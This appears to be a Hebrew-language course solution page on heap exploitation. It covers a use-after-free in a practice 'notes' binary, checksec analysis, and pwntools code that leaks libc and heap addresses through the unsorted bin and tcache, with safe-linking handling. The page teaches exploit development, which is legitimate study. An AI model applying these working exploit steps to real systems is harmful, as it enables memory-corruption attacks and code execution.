

repository: AmitPinchasi/amittech · page: מחקר-חולשות/7 - ניצול הHeap/7.6 - תקיפות tcache וfastbin מודרניות/7.6 - תקיפות tcache וfastbin מודרניות - פתרון/index.html · generator: mkdocs

## פתרון - הרצת קוד עם tcache poisoning בעולם שאחרי ההוקים

נעבור על הפתרון צעד אחר צעד. נתחיל מהבנת החולשה וההגנות, נבנה את שכבת הleaks, ואז נביא שני exploits מלאים ורצים: מסלול environ (המומלץ, בלתי תלוי בגרסה) ומסלול FSOP house of apple2 (המסלול המודרני ל-2.34+). בסוף כל אחד נסביר למה זה עבד ואיך להכליל.

### פתרון תרגיל 1 - מיפוי החולשה והגנות

`checksec` מראה:

```text
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    No PIE
```

מסקנות: אין canary אז לא נתעסק בו, NX דולק אז shellcode מהמחסנית לא יעבוד ונצטרך ret2libc, No PIE אז כתובות הבינארי קבועות, Partial RELRO אבל זה לא משנה כי אף מטרה שלנו איננה ה-GOT.

הבאג ב-`del`: `free(notes[i])` בלי `notes[i] = NULL`. התוצאה היא UAF מלא:

- `view` על chunk ששוחרר קורא את התוכן שלו - וב-chunk ששוחרר, ה-8 בתים הראשונים הם ה-`fd`. זו leak.
- `edit` על chunk ששוחרר דורס את ה-`fd` - זו הרעלת tcache.
- `del` פעמיים על אותו idx הוא double-free.

כשמקצים chunk בגודל 0x500 ומשחררים אותו, הוא גדול מדי ל-tcache (מקסימום 0x410), אז הוא נכנס ל-unsorted bin. שם ה-`fd` וה-`bk` מצביעים ל-`main_arena + 96` בתוך libc. `view` עליו מדפיס את הכתובת הזו - leak libc.

### פתרון תרגיל 2 - leak libc וleak heap

נתחיל את הסקריפט עם פונקציות העזר לתפריט ולleaks:

```python
from pwn import *

context.binary = elf = ELF('./notes')
libc = ELF('./libc.so.6')
context.log_level = 'info'

def start():
    return process([elf.path])   # or process(['./ld.so', './notes'], env={...})

p = start()

def cmd(n):
    p.sendafter(b'> ', str(n).encode())

def add(i, sz, data):
    cmd(1)
    p.sendafter(b'idx: ',  str(i).encode())
    p.sendafter(b'size: ', str(sz).encode())
    p.sendafter(b'data: ', data)

def edit(i, data):
    cmd(2)
    p.sendafter(b'idx: ', str(i).encode())
    p.sendafter(b'data: ', data)

def view(i):
    cmd(3)
    p.sendafter(b'idx: ', str(i).encode())
    return p.recv(8)

def delete(i):
    cmd(4)
    p.sendafter(b'idx: ', str(i).encode())

SAFE_LINKING = True     # True for 2.32+, False for 2.31 and below
def mangle(pos, ptr):
    return (ptr ^ (pos >> 12)) if SAFE_LINKING else ptr
```

הleak libc דרך unsorted bin:

```python
add(0, 0x500, b'A'*8)     # large chunk
add(1, 0x20,  b'guard')   # separates from top, so it won't merge back
delete(0)                 # -> unsorted bin
leak = u64(view(0).ljust(8, b'\x00'))
libc.address = leak - (libc.sym['main_arena'] + 96)
log.success('libc base: ' + hex(libc.address))
```

הערך `main_arena + 96` הוא לאן `fd`/`bk` של chunk בודד ב-unsorted מצביעים. אם pwntools לא מכיר את הסמל `main_arena`, אפשר לחשב אותו כ-`libc.sym['__malloc_hook'] + 0x10` בגרסאות ישנות, או פשוט להריץ פעם אחת ב-gdb `p &main_arena` ולקבל את ה-offset.

הleak heap (נחוצה ל-safe-linking):

```python
add(2, 0x20, b'B')
add(3, 0x20, b'C')
delete(2)
delete(3)                 # both to tcache 0x30; head of the list is 3
heap = u64(view(3).ljust(8, b'\x00')) << 12
log.success('heap base: ' + hex(heap))
```

הסבר: ה-chunk הראשון ששוחרר לתוך tcache ריק מקבל `fd = 0 XOR (addr >> 12) = addr >> 12`. הכפלה ב-`<< 12` מחזירה את בסיס העמוד של ה-heap. אם `SAFE_LINKING = False` (גרסה 2.31), הערך שקראנו הוא כבר כתובת heap גולמית ואפשר לוותר על ההסטה - אבל אז נצטרך chunk שני כדי לקבל כתובת מדויקת. בשביל פשטות, על 2.31 אפשר לקרוא את ה-`fd` של ה-chunk השני ברשימה, שהוא כתובת גולמית של ה-chunk הראשון.
